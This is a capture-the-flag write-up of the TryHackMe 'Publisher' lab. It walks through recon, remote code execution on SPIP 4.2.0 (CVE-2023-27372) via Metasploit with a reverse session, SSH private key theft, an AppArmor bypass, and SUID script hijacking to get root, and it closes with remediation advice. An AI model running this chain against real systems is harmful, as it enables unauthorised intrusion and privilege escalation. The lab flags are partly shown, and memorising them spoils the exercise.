# TryHackMe — Publisher

**Platform:** TryHackMe  
**Difficulty:** Easy  
**OS:** Ubuntu 20.04.6 LTS  
**Target IP:** `10.114.153.43`  
**Date:** 2026-09-17

---

## Table of Contents

- [Recon](#recon)
- [Enumeration](#enumeration)
- [Foothold](#foothold)
- [Lateral Movement](#lateral-movement)
- [Privilege Escalation](#privilege-escalation)
- [Report](#report)

---

## Recon

Initial port scan with `nmap`:

```bash
nmap -sC -sV 10.114.153.43
```



**Open ports:**

| Port | Service | Version                |
|------|---------|------------------------|
| 22   | SSH     | OpenSSH 8.2p1 Ubuntu   |
| 80   | HTTP    | Apache httpd 2.4.41    |

The HTTP title reveals a **SPIP CMS** instance.

---

## Enumeration

### Homepage



### Directory fuzzing

```bash
feroxbuster -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -u http://10.114.153.43
```



Found `/spip/` — the CMS installation path.

### Version disclosure

The `Composed-By` HTTP header leaks the exact SPIP version:



```
Composed-By: SPIP @ www.spip.net + spip(4.2.0),aide(3.1.0),archiviste(2.2.0),...
```

**SPIP version: 4.2.0** → vulnerable to **CVE-2023-27372** (unauthenticated RCE).

### Login page



---

## Foothold

### Metasploit module

```bash
msfconsole -q
search spip
```



Use `exploit/multi/http/spip_rce_form` (CVE-2023-27372).

### Exploit configuration

```bash
use 16
set LHOST 192.168.139.14
set RHOSTS 10.114.153.43
set TARGETURI /spip
set ForceExploit true
run
```



Meterpreter session opened as `www-data`.

### Shell as www-data

```bash
shell
id
```



```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

**User flag:**

```
fa2290
```

---

## Lateral Movement

### SSH key disclosure

```bash
cd /home/think/.ssh
cat id_rsa
```



The private SSH key of user `think` is readable by `www-data`.

### SSH login

```bash
chmod 600 think_id_rsa
ssh think@10.114.153.43 -i think_id_rsa
```



```
uid=1000(think) gid=1000(think) groups=1000(think)
```

---

## Privilege Escalation

### SUID enumeration

```bash
find / -perm -4000 -type f 2>/dev/null
```



Non-standard SUID binary: **`/usr/sbin/run_container`**.

### AppArmor profile

```bash
cat /etc/apparmor.d/usr.sbin.ash
```



Profile denies writes to `/opt`, `/tmp`, `/dev/shm`, `/home` for the `ash` shell.

### AppArmor bypass

```bash
cd /dev/shm
cp /bin/bash .
./bash -p
```



The new `bash` process is **not covered** by the `ash` profile → `/opt` is now writable.

### Exploit SUID

`/opt/run_container.sh` is world-writable and executed by the SUID root binary:

```bash
echo 'cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash' > /opt/run_container.sh
/usr/sbin/run_container
/tmp/rootbash -p
```



```
uid=1000(think) gid=1000(think) euid=0(root) egid=0(root)
```

**Root flag:**

```
3a4225.....

```

---

## Report

### Vulnerabilities

| # | Vulnerability                              | Type                  | Severity |
|---|--------------------------------------------|-----------------------|----------|
| 1 | SPIP 4.2.0 outdated                        | Outdated software     | Critical |
| 2 | `Composed-By` header leaks version         | Information disclosure| Medium   |
| 3 | SSH private key readable by `www-data`     | Secret exposure       | High     |
| 4 | SUID `run_container` + world-writable script | Unsafe SUID         | Critical |
| 5 | AppArmor bypass via shell swap             | Weak MAC config       | High     |

### Attack chain

```
nmap → SPIP 4.2.0 (Composed-By)
     → CVE-2023-27372 → www-data
     → SSH key → think
     → SUID run_container + AppArmor bypass
     → /tmp/rootbash -p → root
```

### Remediation

**1. Update SPIP**

Upgrade to the latest stable version (4.2.17+). Subscribe to SPIP security advisories.

**2. Remove version headers**

```apache
Header unset Composed-By
```

**3. Protect SSH keys**

```bash
chmod 600 /home/think/.ssh/id_rsa
chmod 700 /home/think/.ssh
chown -R think:think /home/think/.ssh
```

**4. Fix SUID binary**

```bash
chmod u-s /usr/sbin/run_container
chmod 600 /opt/run_container.sh
chown root:root /opt/run_container.sh
```

Audit SUID binaries regularly:

```bash
find / -perm -4000 -type f 2>/dev/null
```

**5. Harden AppArmor**

- Use global rules for all shells.
- Switch to `enforce` mode.
- Consider SELinux / seccomp as an additional layer.

**6. Additional**

- Monitor SUID creation in `/tmp`, `/dev/shm`, `/home`.
- Segment web server from user home directories.
- Enable `auditd` for SUID execution tracking.
- Follow the principle of least privilege.

### Flags

| Flag | Value                                |
|------|--------------------------------------|
| User | `fa2290.....`   |
| Root | `3a4225.....`   |
